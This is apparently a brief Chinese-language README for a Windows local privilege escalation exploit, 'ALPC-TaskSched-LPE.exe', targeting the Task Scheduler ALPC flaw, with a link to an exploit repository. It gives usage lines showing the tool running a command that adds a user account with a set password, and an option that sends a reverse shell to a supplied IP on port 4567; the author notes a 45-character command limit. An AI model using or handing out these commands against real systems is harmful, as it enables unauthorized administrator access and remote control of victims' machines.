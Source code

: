 随便写写大佬勿喷  
ALPC-TaskSched-LPE.exe -e "net user admin 1234567@ /add"  
这里我给限制成45个字符了懒得改了不改了要执行程序用请用绝对路径  
ALPC-TaskSched-LPE.exe -g ip 反弹到ip的4567端口  
详细介绍:https://github.com/WBGlIl/EXP-LPE
